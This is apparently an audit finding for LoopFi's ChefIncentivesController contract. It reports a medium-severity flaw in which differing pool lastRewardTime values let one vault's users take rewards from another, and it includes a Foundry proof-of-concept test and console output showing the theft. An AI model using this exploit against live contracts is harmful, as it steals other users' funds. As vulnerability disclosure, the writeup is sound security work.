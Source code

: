 ## [M] Users of a vault can steal other user's rewards when one vault's `lastRewardTime` differs from another vault's `lastRewardTime`

In `ChefIncentivesController.sol`, the `_newRewards` function calculates the new rewards accumulated since the last update of that specific pool [Line 988-994](repos/2024-07-loopfi/src/reward/ChefIncentivesController.sol#L988-L994):

```solidity
function _newRewards(
    VaultInfo memory pool,
    uint256 _totalAllocPoint
) internal view returns (uint256 newReward, uint256 newAccRewardPerShare) {
    .....
    if (lpSupply > 0) {
->      uint256 duration = block.timestamp - pool.lastRewardTime;
->      uint256 rawReward = duration * rewardsPerSecond;

->      uint256 rewards = availableRewards();
->      if (rewards < rawReward) {
->          rawReward = rewards;
->      }
        .....
    }
}
```

For example, when a user changes his debt in CDPVault, `handleActionAfter` is called by the vault, which only changes the `pool.lastRewardTime` of that individual pool representing that vault through `_updatePool`.

This is problematic as it means different pools can have different `pool.lastRewardTime`, which means the way that rewards are calculated in `_newRewards` will cause one pool to receive more rewards than it is supposed to, at the loss of another pool.

A summary would be that `availableRewards()` returns `depositedRewards - accountedRewards;` and `pool.lastRewardTime` being different means that one pool has been adding to `accountedRewards` and its struct variables ahead of another pool. That one pool should then have a "lesser" share in the value returned by `availableRewards()`; however, the current code does not take that into account, allowing that pool to dig into rewards meant for other pools who has a more outdated `pool.lastRewardTime`.

Consider this symbol diagram example:

```
          [-----A-----|-----B-----]            (pool 1)
          [-----------C-----------]            (pool 2)
    Day:  0           x           y       z
```

Suppose there are 2 pools (represented by the first and second `[]` block respectively) that are eligible for rewards. And `day y` is the value `endRewardTime()` returns. And `day z` is a value larger than `day y`. Part `A` represents the rewards that are to be claimed by pool 1 during the time period `[0,x)`, Part `B` represents `[x,y)` for pool 1 as well, while Part `C` represents the full rewards that are to be claimed by pool 2 during `[0,y)`. Below I will explain the sequence which allows pool 1 to steal `1/4` of part `C` from pool 2.

1. Both pools start accumulating rewards from `day 0`.
2. At `day x`, user in **pool 1** changes his debt (by any amount). This will trigger `_modifyPosition` (in CDPVault.sol) which will call `handleActionAfter` (in ChefIncentiveController.sol).
3. `handleActionAfter` in ChefIncentiveController.sol will call `_updatePool` for pool 1 **only**, adding part A (refer to symbol diagram) into `accountedRewards`. (Through this line `accountedRewards = accountedRewards + reward;` inside `_updatePool`).
4. Now suppose on `day z` (which is **greater** than `day y`), the user in pool 1 tries to `claim`, `claim` will then call `_updatePool` which will then call `_newRewards`.
5. Now lets go through what happens inside [`_newRewards`](repos/2024-07-loopfi/src/reward/ChefIncentivesController.sol#L988-L994):
    1. `duration` gets set to `z - pool.lastRewardTime` = `z - x`.
    2. `rawReward` gets set to `duration * rewardsPerSecond`.
    3. `availableRewards()` returns `depositedRewards - accountedRewards`; hence, `availableRewards()` = **part `B+C`** (since `A` is already in `accountedRewards`).
    4. Since `z > y`, `availableRewards()` will be `<` `rawReward` for some values of `z`, this results in the function setting `rawReward = availableRewards();` inside the if statement.
    5. So now, `rawReward` = `availableRewards()` = **part `B+C`**.
    6. Hence, the value returned by `_newRewards` for pool 1 will include **part `C`** which is supposed to be pool 2's rewards; effectively allowing user from pool 1 to **steal a fraction** of another user's rewards from pool 2. (In this scenario, pool 1 can steal `1/4` of part `C`).

### Proof of Code

The below code is the coded version of the explanation above:

```solidity
function test_durationHack() public {
    rewardsPerSecond = 1 ether;     //changed to make console output more understandable
    endingTimeCadence = 30 seconds;
    incentivesController.setRewardsPerSecond(rewardsPerSecond, true);
    incentivesController.setEndingTimeUpdateCadence(endingTimeCadence);

    address Alice = address(0x123);
    address Bob = address(0x567);

    address vault1 = address(0x1);
    uint256 totalAllocPoint = 1000;
    incentivesController.addPool(vault1, totalAllocPoint / 2); //give both pools equal allocation for convenience

    address vault2 = address(0x2);
    incentivesController.addPool(vault2, totalAllocPoint / 2); //give both pools equal allocation for convenience

    loopToken.mint(address(incentivesController), 120 ether);
    incentivesController.registerRewardDeposit(120 ether);    //give out 120 ether as incentive

    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Alice),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Alice),
        abi.encode(true)
    );
    vm.prank(vault1);                                                //set msg.sender to vault1
    incentivesController.handleActionAfter(Alice, 1 ether, 1 ether); //simulates Alice taking on a debt of 1 ether at vault1

    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Bob),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Bob),
        abi.encode(true)
    );
    vm.prank(vault2);                                              //set msg.sender to vault2
    incentivesController.handleActionAfter(Bob, 1 ether, 1 ether); //simulates Bob taking on a debt of 1 ether at vault2

    // based on the above scenario, each Alice and Bob are supposed to get 60 ether each at the end.

    skip(1 minutes); // go to the 1 minute mark (day x in the symbol diagram)
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(IEligibilityDataProvider.lastEligibleStatus.selector, Alice),
        abi.encode(true)
    );
    vm.mockCall(
        mockEligibilityDataProvider,
        abi.encodeWithSelector(EligibilityDataProvider.refresh.selector, Alice),
        abi.encode(true)
    );
    vm.prank(vault1);                                                                //set msg.sender to vault1
    incentivesController.handleActionAfter(Alice, 1 ether - 1 wei, 1 ether - 1 wei); //simulates Alice changing debt by any insignificant amount in vault1, resulting in _updatePool being called for vault1

    skip(1 minutes); //further skip 1 minute, reaching the **2 minute mark** (day y in the symbol diagram)
    console.log("Alice rewards at 2 minutes:", incentivesController.allPendingRewards(Alice)); // 2 minutes is the time at which 60 ether should be given to each of Alice and Bob, and no one is supposed to get more afterwards if not for the bug
    skip(1 minutes); // (day z in the symbol diagram)
    console.log("Alice rewards at 3 minutes:", incentivesController.allPendingRewards(Alice)); // as you can see Alice continues to receive rewards even after she isnt supposed to, exploiting the difference in pool.lastRewardTime to do so

    console.log("Bob's reward at the end:   ", incentivesController.allPendingRewards(Bob));
}
```



**Console Output:**

```
Ran 1 test for src/test/unit/ChefIncentivesController.t.sol:ChefIncentivesControllerTest
[PASS] test_durationHack() (gas: 688851)
Logs:
  Alice rewards at 2 minutes: 59999999999999999970
  Alice rewards at 3 minutes: 74999999999999999955
  Bob's reward at the end:    45000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.68ms (1.13ms CPU time)

Ran 1 test suite in 301.12ms (5.68ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

**Notable comments:**

- The first `handleActionAfter` is where we simulate Alice taking on 1 ether debt inside vault1.
- The second `handleActionAfter` is where we simulate Bob taking on 1 ether debt inside vault2.
- The last `handleActionAfter` is where we simulate Alice changing her debt by an insignificant amount in vault1, resulting in `_updatePool` being called for **only** vault1.
- Since we mint `120 ether` as rewards and we set `rewardsPerSecond = 1 ether`, and both Alice and Bob start staking the **same amounts** at the **same time** in different pools of **equal** point allocation weightage, at the end of `2 minutes`, both Alice and Bob should have received **equal** amounts of reward (`60 ether` **each**).
- However, we can see in the console output that Alice continues to gain tokens past `2 minutes` and at the end has `74999999999999999955 tokens` \~= `75 ether`, while Bob only has `45 ether`.
- Alice has successfully taken advantage of the difference in pool's `lastRewardTime` bug, to steal `15 ether` of rewards from Bob, resulting in a **permanent** loss of rewards for Bob. (the `15 ether` here is basically the `1/4` of part `C` in the symbol diagram explanation).



